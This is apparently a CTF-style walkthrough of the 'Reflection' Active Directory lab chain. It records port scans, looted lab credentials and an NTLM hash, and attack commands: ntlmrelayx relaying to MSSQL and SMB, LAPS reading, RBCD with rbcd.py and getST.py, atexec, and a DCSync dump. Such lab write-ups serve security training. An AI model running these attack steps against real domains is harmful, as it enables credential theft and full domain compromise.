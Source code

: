 # Reflection (chain) (medium)

## port scan

10.10.164.101 DC01.reflection.vl

10.10.164.102 MS01.reflection.vl

10.10.164.103 WS01.reflection.vl

```
Open 10.10.164.101:88
Open 10.10.164.101:135
Open 10.10.164.103:135
Open 10.10.164.102:135
Open 10.10.164.101:139
Open 10.10.164.101:389
Open 10.10.164.101:445
Open 10.10.164.103:445
Open 10.10.164.102:445
Open 10.10.164.101:464
Open 10.10.164.101:593
Open 10.10.164.101:636
Open 10.10.164.101:1433
Open 10.10.164.102:1433
Open 10.10.164.101:3268
Open 10.10.164.101:3269
Open 10.10.164.103:3389
Open 10.10.164.101:3389
Open 10.10.164.102:3389
Open 10.10.164.101:5985
Open 10.10.164.102:5985
Open 10.10.164.101:9389
Open 10.10.164.101:49664
Open 10.10.164.101:49667
Open 10.10.164.102:49669
Open 10.10.164.101:49671
Open 10.10.164.101:49674
Open 10.10.164.101:49675
Open 10.10.164.101:49692
Open 10.10.164.101:56499
Open 10.10.164.101:56515
```

## service enumeration

![](walkthrough_20240412110355542.png)

there have a custom smb share folder `staging`

![](walkthrough_20240412110603158.png)

there have a conf file

![](walkthrough_20240412110743188.png)

`web_staging:Washroom510` , so we have a cred. looks like sql cred

![](walkthrough_20240412110814534.png)

since MS01 open 1433 port (mssql)

![](walkthrough_20240412111134818.png)

there have a custom database called staging

![](walkthrough_20240412111607615.png)

the staging db have `users` table, we can select users table to get those cred. `dev01:Initial123`

![](walkthrough_20240412111346033.png)

both cred are not domain cred

![](walkthrough_20240412112907512.png)

the `xp_dirtree` tell us the username called `svc_web_staging`

![](walkthrough_20240412115932759.png)

## relay attack

the ntlm auth message are in packets of application protocols such as SMB,HTTP,MSSQL. ntlm auth are "application protocol-independent". That is called `cross-protocols LM/NTLM relay`


```bash
ntlmrelayx.py -tf ./target
```

`Authenticating against smb://10.10.164.101 as REFLECTION/SVC_WEB_STAGING SUCCEED` which mean we can relay that authentication to DC01.reflection.vl.

and there also have 1433 port (mssql) open on DC01.reflection.vl

![](walkthrough_20240412120232871.png)

so set target `mssql://10.10.164.101` and set query `SELECT name FROM master.dbo.sysdatabases` to show databases on dc01

```bash
impacket-ntlmrelayx -t mssql://10.10.164.101 -q 'SELECT name FROM master.dbo.sysdatabases;' -smb2support
```

there have a custom databases called `prod`

![](walkthrough_20240412122243369.png)

we can't access prod databases

![](walkthrough_20240412125232932.png)

after read this post https://trustedsec.com/blog/a-comprehensive-guide-on-relaying-anno-2022. i found we can use `-socks` to open a socks proxy access smb share

```bash
impacket-ntlmrelayx -t smb://10.10.164.101 -socks -smb2support
```

![](walkthrough_20240412131519400.png)


```bash
pc -f ~/tool/chisel.conf impacket-smbclient REFLECTION/SVC_WEB_STAGING@10.10.164.101
```

![](walkthrough_20240412131849129.png)

in `prod` share, we can found a cred

![](walkthrough_20240412132137299.png)

now we can use web_prod read prod databases on dc01

```bash
impacket-mssqlclient web_prod:Tribesman201@10.10.164.101
```


![](walkthrough_20240412132531352.png)

edit dnschef.ini to prepare bloodhound fetch domain information

![](walkthrough_20240412132831500.png)

![](walkthrough_20240412133706787.png)

## RBCD check

i will use https://github.com/kaluche/bloodhound-quickwin

![](walkthrough_20240412134017115.png)

since the machine account quota is `0`, which mean we can't create new evil machine account complate RBCD attack

![](walkthrough_20240412134728593.png)

## shadow credentials

we also have `shadow credentials` method

![](walkthrough_20240412134929180.png)

the keycredentials is empty, use pywhisker add new one

![](walkthrough_20240412135615135.png)

seems not work

![](walkthrough_20240412141354947.png)


## LASP 

the ms01 LAPS is enable

![](walkthrough_20240412143012854.png)

we can use pylaps to read random administrator password


![](walkthrough_20240412143805018.png)

![](walkthrough_20240412143926737.png)

i will use sharpdpi

![](walkthrough_20240412152427781.png)

another cred

![](walkthrough_20240412152454863.png)

## RBCD attack

we can use rbcd.py to add `msDS-AllowedToActOnBehalfOfOtherIdentity` attr to our control machine ms01

```
rbcd.py -delegate-from 'ms01$' -delegate-to 'ws01' -action 'write' 'reflection/Georgia.Price:DBl+5MPkpJg5id' -dc-ip dc01.reflection.vl
```

![](walkthrough_20240412153320919.png)

```
getST.py -spn 'cifs/ws01.reflection.vl' -impersonate 'administrator' 'reflection.vl/ms01$' -hashes :16f4293a0f659f99d7e5cd88de370c25 -dc-ip dc01.reflection.vl
```

![](walkthrough_20240412153634062.png)


![](walkthrough_20240412155339174.png)

i will use atexec get a beacon

![](walkthrough_20240412154544680.png)

## password reuse

`GARNER` string also use on DOM_RGARNER, since we have RHYS.GARNER password via impacket-secretsdump


![](walkthrough_20240412155408789.png)

the DOM_RGARNER user have DCSync, we can dump all information via secretsdump

![](walkthrough_20240412155432585.png)

done!

![](walkthrough_20240412155834911.png)
